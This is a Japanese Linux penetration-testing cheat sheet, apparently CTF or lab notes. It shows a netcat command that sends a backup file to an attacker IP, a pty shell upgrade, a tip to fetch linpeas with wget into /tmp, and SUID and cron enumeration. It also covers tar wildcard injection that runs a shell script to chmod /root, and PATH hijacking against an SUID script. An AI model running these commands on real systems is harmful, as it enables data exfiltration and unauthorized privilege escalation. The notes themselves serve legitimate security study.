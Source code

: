 ### ユーザーからファイルを列挙する  

```
find / -user ash
```

### ターゲットマシンから攻撃マシンにファイルを転送する  

```
#ターゲット側
cat 16162020_backup.zip | nc 10.10.14.18 443

#攻撃側
nc -lnvp 443 > 16162020_backup.zip

```

### システム全体でmlocateグループに属するファイルを検索する

```
find / -group mlocate 2 > /dev/ null | grep -v '^/proc\|^/run\|^/sys\|^/snap'
```

### TCP/UDPのポート開放状態を確認したいとき  
#### ss -nltup  
-n : ポート番号をサービス名変換しない(例えば:httpと表示せず:80と表示する)  
-l : Listen(待ち受け)ポートのみを表示する  
-t : TCP を表示する  
-u : UDP を表示する  
-p を付けて "ss -nltup" を実行すると、どのプロセスがそのポートを開放しているのかが分かります。  

### SSHのファイヤーウォールを超えて外部から目的サーバにアクセスする  
SSH の機能の内の一つであるポートフォワーディングを使ってトンネルを掘ることによって, ファイヤーウォールを超えて外部から目的サーバにアクセスすることができる  
```$ ssh -L (ローカルで使用するポート):(目的サーバのアドレス):(目的サーバで待ち受けてるポート番号) ユーザ名@IPアドレス```  

### SUIDの探索
``` find / -perm -u=s -type f 2>/dev/null ```  

また、SUIDのついたコマンドを利用して権限昇格する例

https://gtfobins.github.io/

https://binaryregion.wordpress.com/2021/07/04/privilege-escalation-linux-systemctl/


### 定期自動実行されているものを確認する  
``` cat /etc/crontab ```  
  


### シェル起動  
``` python -c 'import pty;pty.spawn("/bin/bash")' ```  
なお、permission deniedでlinpeasをアップできない場合は、/tmp上でwgetするとささる  

### ワイルドカードの脆弱性  
chown , tar , rsyncなどで特定のオプションを使用することで顕在化する可能性がある  
特別に細工されたファイル名を使用することで、  
攻撃者は、他のユーザー(rootも含む)が実行するシェルコマンドに任意の引数を注入することができる。  
#### tarの任意コマンド実行によるポイズニング  
・-checkpoint[=NUMBER]  
・-checkpoint-action=ACTION  
これらのオプションはチェックポイント(NUMBER , ACTION)後に  
指定されたアクションを使用することができる  
→ワイルドカードインジェクションに繋がる！  
  
例:  
``` -checkpoint=1 ```  
``` -checkpoint-action=exec=sh shell.sh ```  
shell.shのプログラムは以下  
``` chmod 777 /root ```  

詳しくは下記の記事を参考に(両方とも同じ記事だけど一応のために魚拓も)  
https://www.hackingarticles.in/skynet-tryhackme-walkthrough/  
https://web.archive.org/web/20230608070440/https://www.hackingarticles.in/skynet-tryhackme-walkthrough/  
  
### フルパスでないコマンドが入っているSUIDなシェルスクリプトから権限昇格する
例えば以下のようなコマンドを実行するシェルスクリプト(/usr/bin/menu)があったとする
```curl -I localhost```

1."/bin/sh"という文字列をcurlというファイルに出力する
2.生成されたcurlファイルに対してchmodで777にしてあげる
3.環境パスを現在のディレクトリにする
4.脆弱性のあるシェルスクリプトを実行すると権限昇格

以下が権限昇格の具体的な手順
```
echo /bin/sh > curl
chmod 777 curl
export PATH=現在のディレクトリ:$PATH
/usr/bin/menu
```
